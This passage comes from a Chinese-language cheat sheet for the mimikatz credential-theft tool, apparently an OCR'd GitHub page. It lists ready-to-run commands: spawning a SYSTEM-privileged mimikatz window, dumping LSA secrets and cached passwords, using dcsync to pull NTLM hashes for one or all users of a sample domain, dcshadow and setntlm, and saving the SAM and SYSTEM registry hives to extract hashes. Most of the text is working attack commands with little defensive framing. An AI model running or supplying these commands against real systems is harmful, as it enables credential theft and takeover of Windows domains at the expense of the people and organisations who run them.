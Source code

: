 #### [process::stop](#toc_processstop)

停止一个进程

#### [process::suspend](#toc_processsuspend)

冻结一个进程

#### [process::resume](#toc_processresume)

从冻结中恢复

#### [process::run notepad](#toc_processrun-notepad)

运行一个程序

#### [process::runp](#toc_processrunp)

以 SYSTEM 权限打开一个新的 mimikatz 窗口

### [Lsadump 模块（读取域控中域成员的 Hash）](#toc_lsadumphash)

```bash
Lsadump::secrets：从 registry 或者 hives 获取保存的密码凭据，可以直接获取明文密码。
Lsadump::cache：获取内存中的密码值。
Lsadump::lsa：从 lsa 服务器获取密码，lsadump::lsa /inject /name:krbtgt。
Lsadump::trust：Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fbackupkeys rpdata。
Lsadump::dcsync：Ask a DC to synchronize an object。
Lsadump::dcshadow：They told me I could be anything I wanted, so I became a domain controller。
Lsadump::setntlm：Ask a server to set a new password/ntlm for one user。
Lsadump::changentlm：Ask a server to set a new password/ntlm for one user。
Lsadump::netsync：Ask a DC to send current and previous NTLM hash of DC/SRV/WKS。
```

#### [lsadump::lsa /patch](#toc_lsadumplsa-patch)

读取所有与用户的哈希

#### [lsadump::dcsync](#toc_lsadumpdcsync)

通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取

查看域内指定用户信息，包括 NTLM 哈希等

lsadump::dcsync /domain:nanhu.com /user:nanhu

查看所有域用户

lsadump::dcsync /domain:nanhu.com /all /csv

#### [lsadump::sam](#toc_lsadumpsam)

sam 表获取 Hash

```bash
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

lsadump::sam /sam:SAM /system:SYSTEM
```

